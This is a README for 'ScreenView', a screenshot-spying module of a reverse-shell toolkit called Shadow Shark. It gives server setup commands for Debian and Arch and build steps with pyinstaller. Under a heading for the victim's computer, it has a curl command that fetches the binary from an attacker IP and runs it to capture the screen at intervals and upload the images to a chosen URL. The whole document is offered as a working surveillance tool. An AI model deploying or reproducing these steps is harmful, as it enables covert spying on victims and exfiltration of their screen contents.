 # ScreenView
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> ScreenView module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /srv/http/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
```
